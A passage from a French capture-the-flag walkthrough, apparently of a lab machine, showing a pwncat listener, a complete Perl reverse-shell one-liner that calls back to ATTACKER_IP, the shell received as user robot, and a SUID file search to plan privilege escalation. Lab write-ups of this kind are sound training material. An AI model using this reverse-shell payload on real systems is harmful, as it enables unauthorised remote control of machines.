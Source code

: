 Nous devons changer le port d'écoute car le `4444` est déjà pris.

```bash
pwncat -lp 4433
[13:36:46] Welcome to pwncat 🐈!                                                                       __main__.py:164
bound to 0.0.0.0:4433 ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
```

En utilisant la commande `which`, j'ai découvert que **Perl** est disponible sur la machine cible.

Nous pouvons l'utiliser pour obtenir un deuxième reverse shell en utilisant la commande suivante.

```bash
which perl
/usr/bin/perl # Perl semble être disponible

perl -e 'use Socket;$i="ATTACKER_IP";$p=4433;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'

```

```bash
pwncat -lp 4433
[13:36:46] Welcome to pwncat 🐈! __main__.py:164
[13:37:23] received connection from 10.10.135.61:52852 bind.py:84
[13:37:24] 0.0.0.0:4433: upgrading from /bin/dash to /bin/bash manager.py:957
[13:37:25] 10.10.135.61:52852: registered new host w/ db manager.py:957
(local) pwncat$ # Use CTRL + D to interact with the target machine
(remote) robot@ip-10-10-135-61:/home/robot$
```

Nous avons finalement obtenu notre reverse shell entièrement fonctionnel.

Maintenant, en tant qu'utilisateur robot, nous ne pouvons pas faire grand-chose → nous devons escalader nos privilèges.

Tout d'abord, une bonne habitude à avoir est de vérifier s'il y a des fichiers SUID.

```bash
(remote) robot@ip-10-10-135-61:/home/robot$ find / -type f -perm -u=s 2>/dev/null
/bin/umount
/bin/mount
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/pkexec
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/dbus-1.0/dbus-daemon-launch-helper

```
